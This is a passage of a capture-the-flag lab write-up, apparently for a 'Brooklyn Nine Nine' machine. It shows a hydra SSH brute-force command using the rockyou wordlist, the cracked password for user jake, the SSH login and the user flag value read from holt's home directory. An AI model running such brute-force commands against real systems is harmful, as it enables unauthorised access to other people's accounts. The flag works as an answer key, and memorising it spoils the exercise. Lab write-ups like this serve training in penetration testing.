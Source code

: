 I will use #hydra and Rockyou password list.

```bash

hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://"IP MACHINE"

```

the hydra found the password is : 

```

[22][ssh] host: 10.10.30.3   login: jake   password: 987654321

```



# Exploit 



lets join SSH using these credentials.

```

root@urmachine > ssh jake@"IP MACHINE"

password : 987654321

```

we are into jake machine now lets navigate to it. try to find user flag

```bash

jake@brookly_nine_nine:/home/holt$ cd /

jake@brookly_nine_nine:/$ cd /home

jake@brookly_nine_nine:/home$ ls

amy  holt  jake

jake@brookly_nine_nine:/home$ cd holt

jake@brookly_nine_nine:/home/holt$ ls

nano.save  user.txt

jake@brookly_nine_nine:/home/holt$ cat user.txt

ee11cbb19052e40b07aac0ca060c23ee

```

The answer to user flag is : ==ee11cbb19052e40b07aac0ca060c23ee==
